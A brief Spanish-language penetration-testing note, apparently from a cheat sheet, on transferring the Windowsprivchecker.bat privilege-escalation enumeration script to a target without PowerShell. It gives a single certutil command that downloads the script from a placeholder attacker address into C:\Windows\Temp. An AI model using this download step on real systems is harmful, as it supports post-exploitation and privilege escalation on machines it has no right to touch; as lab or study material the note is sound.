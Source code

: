 ## Windowsprivchecker.bat

Utilizado para Windows sin Powershell
Pasar a la maquina 
´´´ 
certutil.exe -urlcache -split -f "http://$IP/windowsprivchecker.bat" C:\Windows\Temp\privesc.bat < recomendacion por permisos de escritura 
´´´

